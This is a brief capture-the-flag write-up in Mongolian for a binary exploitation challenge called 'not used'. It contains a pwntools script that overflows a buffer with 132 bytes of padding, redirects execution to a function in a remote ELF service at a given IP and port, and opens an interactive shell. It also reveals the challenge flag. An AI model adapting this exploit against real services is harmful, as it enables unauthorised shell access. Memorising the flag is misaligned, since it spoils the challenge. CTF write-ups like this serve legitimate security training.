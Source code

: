 ## not used

`nc 218.100.84.106 9006` дээр хавсралт дээрх elf ажиллаж байна.

> **By reamb**

## Writeup

Мөн л өмнөх даалгавартай төстэй.

```python
from pwn import *

# 218.100.84.106 9006
r = remote('218.100.84.106', 9006)

nop = shellcraft.i386.nop()
call_me_sys_call_add = 0x080484ea

r.send((b'A' * 132) + p32(call_me_sys_call_add) + p32(0x08048629))
r.interactive()
```

Дээрх скриптийг ажиллуулахад **command line shell** (Interactive mode буюу`/bin/bash`) рүү орно.
Эндээс `ls`, `cat` коммандуудыг ашиглан тугийг харах боломжтой.

```
Туг: HZ{r3t2l1b_w1ns!!}
```

